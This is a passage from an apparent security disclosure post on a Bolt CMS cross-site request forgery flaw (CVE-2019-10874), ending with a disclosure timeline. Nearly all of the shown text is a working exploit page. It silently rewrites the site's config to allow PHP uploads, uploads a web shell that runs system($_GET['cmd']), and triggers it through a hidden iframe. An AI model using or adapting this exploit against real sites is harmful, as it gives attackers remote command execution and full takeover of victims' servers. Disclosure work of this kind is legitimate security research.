ng+the+%60%3Cs%3E%60-tag.%0D%0A++++blockquote%3A+false++++++++%23+Allows+the+user+to+insert+blockquotes+using+the+%60%3Cblockquote%3E%60-tag.%0D%0A++++codesnippet%3A+false+++++++%23+Allows+the+user+to+insert+code+snippets+using+%60%3Cpre%3E%3Ccode%3E%60-tags.%0D%0A++++specialchar%3A+false+++++++%23+Adds+a+button+to+insert+special+chars+like+\\\'%E2%82%AC\\\'+or+\\\'%E2%84%A2\\\'.%0D%0A++++clipboard%3A+false+++++++++%23+Adds+buttons+to+\\\'undo\\\'+and+\\\'redo\\\'.%0D%0A++++copypaste%3A+false+++++++++%23+Adds+buttons+to+\\\'cut\\\'%2C+\\\'copy\\\'+and+\\\'paste\\\'.%0D%0A++++ck%3A%0D%0A++++++++autoParagraph%3A+true++%23+If+set+to+\\\'true\\\'%2C+any+pasted+content+is+wrapped+in+%60%3Cp%3E%60-tags+for+multiple+line-breaks%0D%0A++++++++disableNativeSpellChecker%3A+true+%23+If+set+to+\\\'true\\\'+it+will+stop+browsers+from+underlining+spelling+mistakes%0D%0A++++++++allowNbsp%3A+false+++++%23+If+set+to+\\\'false\\\'%2C+the+editor+will+strip+out+%60%26nbsp%3B%60+characters.+If+set+to+\\\'true\\\'%2C+it+will+allow+them.+%C2%AF%5C_(%E3%83%84)_%2F%C2%AF%0D%0A%0D%0A%23+Bolt+uses+the+Google+maps+API+for+it\\\'s+geolocation+field+and+Google+now%0D%0A%23+requires+that+it+be+loaded+with+an+API+key+on+new+domains.+You+can+generate%0D%0A%23+a+key+at+https%3A%2F%2Fdevelopers.google.com%2Fmaps%2Fdocumentation%2Fjavascript%2Fget-api-key%0D%0A%23+and+enter+it+here+to+make+sure+that+the+geolocation+field+works.%0D%0A%23+google_api_key%3A%0D%0A%0D%0A%23+Global+option+to+enable%2Fdisable+the+live+editor%0D%0Aliveeditor%3A+false%0D%0A%0D%0A%23+Use+the+\\\'mailoptions\\\'+setting+to+configure+how+Bolt+sends+email%3A+using+\\\'smtp\\\'%0D%0A%23+or+PHP\\\'s+built-in+%60mail()%60-function.%0D%0A%0D%0A%23+Note+that+the+latter+might+_seem_+easier%2C+but+it\\\'s+been+disabled+by+a+lot+of%0D%0A%23+webhosts%2C+in+order+to+prevent+spam+from+wrongly+configured+scripts.+If+you+use%0D%0A%23+it%2C+your+mail+might+disappear+into+a+black+hole%2C+without+producing+any+errors.%0D%0A%23+Generally+speaking%2C+using+\\\'smtp\\\'+is+the+better+option%2C+so+use+that+if+possible.%0D%0A%23%0D%0A%23+Protip%3A+If+your+webhost+does+not+support+SMTP%2C+sign+up+for+a+(free)+Sparkpost%0D%0A%23+account+at+https%3A%2F%2Fwww.sparkpost.com%2Fpricing%2F+for+sending+emails+reliably.%0D%0A%23%0D%0A%23+The+mail+defaults+use+bolt%40yourhostname+with+the+site+title+as+a+default.%0D%0A%23+Override+this+with+the+senderName+and+senderMail+fields%0D%0A%0D%0A%23+mailoptions%3A%0D%0A%23+++++transport%3A+smtp%0D%0A%23+++++spool%3A+true%0D%0A%23+++++host%3A+localhost%0D%0A%23+++++port%3A+25%0D%0A%23+++++username%3A+username%0D%0A%23+++++password%3A+password%0D%0A%23+++++encryption%3A+null%0D%0A%23+++++auth_mode%3A+null%0D%0A%23+++++senderMail%3A+null%0D%0A%23+++++senderName%3A+null%0D%0A%0D%0A%23+mailoptions%3A%0D%0A%23+++++transport%3A+mail%0D%0A%23+++++spool%3A+false%0D%0A%0D%0A%23+Bolt+allows+some+modifications+to+how+\\\'strict\\\'+login+sessions+are.+For+every%0D%0A%23+option+that+is+set+to+true%2C+it+becomes+harder+for+a+bad-willing+person+to%0D%0A%23+spoof+your+login+session.+However%2C+it+also+requires+you+to+re-authenticate%0D%0A%23+more+often+if+you+change+location(ip-address)+or+your+browser+has+frequent%0D%0A%23+upgrades.+Only+change+these+if+you+know+what+you\\\'re+doing%2C+and+you\\\'re+having%0D%0A%23+issues+with+the+default+settings.%0D%0A%23%0D%0A%23+Note%3A+If+you+change+any+of+these%2C+all+current+users+will+automatically+be%0D%0A%23+++++++logged+off.%0D%0Acookies_use_remoteaddr%3A+true%0D%0Acookies_use_browseragent%3A+false%0D%0Acookies_use_httphost%3A+true%0D%0A%0D%0A%23+The+length+of+time+a+user+stays+\\\'logged+in\\\'.+Change+to+0+to+end+the+session%0D%0A%23+when+the+browser+is+closed.%0D%0A%23%0D%0A%23+The+default+is+1209600+(two+weeks%2C+in+seconds).%0D%0Acookies_lifetime%3A+1209600%0D%0A%0D%0A%23+Set+the+session+cookie+to+a+specific+domain.+Leave+blank%2C+unless+you+know+what%0D%0A%23+you\\\'re+doing.%0D%0A%23%0D%0A%23+When+set+incorrectly%2C+you+might+not+be+able+to+log+on+at+all.%0D%0A%23%0D%0A%23+If+you\\\'d+like+it+to+be+valid+for+all+subdomains+of+\\\'www.example.org\\\'%2C+set+this%0D%0A%23+to+\\\'.example.org\\\'.%0D%0Acookies_domain%3A%0D%0A%0D%0A%23+The+hash_strength+determines+the+amount+of+iterations+for+encrypting%0D%0A%23+passwords.%0D%0A%23%0D%0A%23+A+higher+number+means+a+harder+to+decrypt+password%2C+but+takes+longer+to%0D%0A%23+compute.+\\\'8\\\'+is+the+minimum%2C+\\\'10\\\'+is+the+default%2C+\\\'12\\\'+is+better.%0D%0Ahash_strength%3A+10%0D%0A%0D%0A%23+Bolt+sets+the+%60X-Frame-Options%60+and+%60Frame-Options%60+to+%60SAMEORIGIN%60+by%0D%0A%23+default%2C+to+prevent+the+web+browser+from+rendering+an+iframe+if+origin%0D%0A%23+mismatch+(i.e.+iframe+source+refers+to+a+different+domain).%0D%0A%23%0D%0A%23+Setting+this+to+\\\'false\\\'%2C+will+prevent+the+setting+of+these+headers.%0D%0A%23+headers%3A%0D%0A%23+++++x_frame_options%3A+true%0D%0A%0D%0A%23+Bolt+uses+market.bolt.cm+to+fetch+it\\\'s+extensions+by+default.+You+can%0D%0A%23+change+that+URL+here.%0D%0A%23%0D%0A%23+Do+not+change+this%2C+unless+you+know+what+you\\\'re+doing%2C+and+understand+the%0D%0A%23+associated+risks.+If+you+use+\\\'http%3A%2F%2Fmarket.bolt.cm\\\'%2C+Bolt+will+not+use%0D%0A%23+SSL%2C+increasing+the+risk+for+a+MITM+attacks.%0D%0A%23+extensions%3A%0D%0A%23+++++site%3A+\\\'https%3A%2F%2Fmarket.bolt.cm%2F\\\'%0D%0A%23+++++enabled%3A+true%0D%0A%23+++++composer%3A%0D%0A%23+++++++++minimum-stability%3A+stable++++++%23+Either+\\\'stable\\\'%2C+\\\'beta\\\'%2C+or+\\\'dev\\\'.+Setting+\\\'dev\\\'+will+allow+you+to+install+dev-master+versions+of+extensions.%0D%0A%23+++++++++prefer-stable%3A+true++++++++++++%23+Prefer+stable+releases+over+development+ones%0D%0A%23+++++++++prefer-dist%3A+true++++++++++++++%23+Forces+installation+from+package+dist+even+for+dev+versions.%0D%0A%23+++++++++prefer-source%3A+false+++++++++++%23+Forces+installation+from+package+sources+when+possible%2C+including+VCS+information.%0D%0A%23+++++++++config%3A%0D%0A%23+++++++++++++optimize-autoloader%3A+false+++++%23+Optimize+autoloader+during+autoloader+dump.%0D%0A%23+++++++++++++classmap-authoritative%3A+false++%23+Autoload+classes+from+the+classmap+only.+Implicitly+enables+%60optimize-autoloader%60.%0D%0A%0D%0A%23+Enforcing+the+use+of+SSL.+If+set%2C+all+pages+will+enforce+an+SSL+connection%2C%0D%0A%23+and+redirect+to+HTTPS+if+you+attempt+to+visit+plain+HTTP+pages.%0D%0A%23+enforce_ssl%3A+true%0D%0A%0D%0A%23+If+configured%2C+Bolt+will+trust+X-Forwarded-XXX+headers+from+the+listed+IP%0D%0A%23+addresses+and+ranges+when+determining+whether+the+current+request+is%0D%0A%23+\\\'secure\\\'.%0D%0A%23%0D%0A%23+This+is+required+to+correctly+determine+the+current+hostname+and+protocol%0D%0A%23+(HTTP+vs.+HTTPS)+when+running+behind+some+proxy%2C+e.g.+a+load+balancer%2C+cache%2C%0D%0A%23+or+SSL+proxy.%0D%0A%23%0D%0A%23+List+the+IP+addresses+or+subnets+that+you+know+are+such+proxies.%0D%0A%23%0D%0A%23+Note%3A+Allowing+hosts+here+that+may+not+be+trusted+proxies+is+a+security+risk.%0D%0A%23+++++++If+you+do+not+understand+what+this+does%2C+it+is+probably+best+to+not%0D%0A%23+++++++touch+it.%0D%0A%23+trustProxies%3A%0D%0A%23+++++-+127.0.0.1%0D%0A%23+++++-+10.0.0.0%2F8%0D%0A%0D%0A%23+If+you+want+Bolt+installation+get+news+through+a+proxy%0D%0A%23+httpProxy%3A%0D%0A%23+++++host%3A+scheme%3A%2F%2Fmy.proxy.server%3Aport%0D%0A%23+++++user%3A+%5Busr%5D%0D%0A%23+++++password%3A+%5Bpwd%5D%0D%0A%0D%0A%23+Options+for+backend+user+interface%0D%0A%23+backend%3A%0D%0A%23++++news%3A%0D%0A%23++++++++disable%3A+true+++++%23+Disable+news+panel.+Defaults+to+false.+%22Alerts%22+will+still+be+shown.%0D%0A%23++++stack%3A%0D%0A%23++++++++disable%3A+true+++++%23+Disable+stack+usage.+Defaults+to+false.%0D%0A%0D%0A%23+Options+that+will+be+forced+in+next+major+version%0D%0Acompatibility%3A%0D%0A++++%23+Whether+to+return+TemplateView+instead+of+TemplateResponse+from+Controller%5CBase%3A%3Arender()%0D%0A++++%23+Response+methods+cannot+be+used+on+TemplateView+objects.%0D%0A++++%23+Setting+this+value+to+false+is+deprecated.%0D%0A++++template_view%3A+true%0D%0A++++%23+Set+to+\\\'false\\\'+to+enable+using+a+newer+version+of+the+setcontent+parser.%0D%0A++++setcontent_legacy%3A+true%0D%0A&file_edit%5Bsave%5D=undefined\\n\";\r\n" + 
          "            var aBody = new Uint8Array(body.length);\r\n" + 
          "            for (var i = 0; i \x3c aBody.length; i++)\r\n" + 
          "              aBody[i] = body.charCodeAt(i); \r\n" + 
          "            xhr.send(new Blob([aBody]));\r\n" + 
          "        }\r\n" + 
          "\r\n" + 
          "        function UploadShell() {\r\n" + 
          "            var xhr = new XMLHttpRequest();\r\n" + 
          "            xhr.open(\"POST\", bolt_admin_url + \"/upload\", true);\r\n" + 
          "            xhr.setRequestHeader(\"Accept\", \"application\\/json, text\\/javascript, *\\/*; q=0.01\");\r\n" + 
          "            xhr.setRequestHeader(\"Accept-Language\", \"en-US,en;q=0.5\");\r\n" + 
          "            xhr.setRequestHeader(\"Content-Type\", \"multipart\\/form-data; boundary=---------------------------130713229751679908527494159\");\r\n" + 
          "            xhr.withCredentials = true;\r\n" + 
          "            var body = \"-----------------------------130713229751679908527494159\\r\\n\" + \r\n" + 
          "              \"Content-Disposition: form-data; name=\\\"files[]\\\"; filename=\\\"shell.php\\\"\\r\\n\" + \r\n" + 
          "              \"Content-Type: text/plain\\r\\n\" + \r\n" + 
          "              \"\\r\\n\" + \r\n" + 
          "              \"\\x3c?php echo(system($_GET[\\\'cmd\\\'])); ?\\x3e\\n\" + \r\n" + 
          "              \"\\r\\n\" + \r\n" + 
          "              \"-----------------------------130713229751679908527494159--\\r\\n\";\r\n" + 
          "            var aBody = new Uint8Array(body.length);\r\n" + 
          "            for (var i = 0; i \x3c aBody.length; i++)\r\n" + 
          "              aBody[i] = body.charCodeAt(i); \r\n" + 
          "            xhr.send(new Blob([aBody]));\r\n" + 
          "        }\r\n" + 
          "    }\r\n" + 
          "\r\n" + 
          "    exploit();\r\n" + 
          "\r\n" + 
          "\x3c/script\x3e\r\n" + 
          "\n" + 
          "\r\n" + 
          "-----------------------------130713229751679908527494159--\r\n";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));

        setTimeout(function() {
            var dateObj = new Date();
            var folder = dateObj.getFullYear() + "-" + (String("00"+(dateObj.getMonth()+1)).slice(-2));
            document.getElementById('stager').src = target + "/files/"+folder+"/stager.html";
            console.log("Called stager! Wait a moment and access: " + target + "/files/" + folder + "/shell.php?cmd=whoami");
         }, 2000);

      }

      window.onload = function() {
        exploit();
      };

    </script>
     <iframe id="stager" style="width:0;height:0;border:0;border:none" src=""></iframe>
  </body>
</html>

{% endhighlight %}

## Disclosure Timeline

- 2019/04/02 - Vulnerabilities Discovered
- 2019/04/03 - Vulnerabilities Reported to Bolt CMS (CVE-2019-10874)
- 2019/04/03 - Developer Acknowledged Vulnerability and started to address issues (first [Pull][first-pull])
- 2019/04/11 - Version 3.6.7 released ([link][release])


[bolt]: https://bolt.cm/
[first-pull]: https://github.com/bolt/bolt/pull/7768/commits/91187aef36363a870d60b0a3c1bf8507af34c9e4
[release]: https://github.com/bolt/bolt/releases/tag/v3.6.7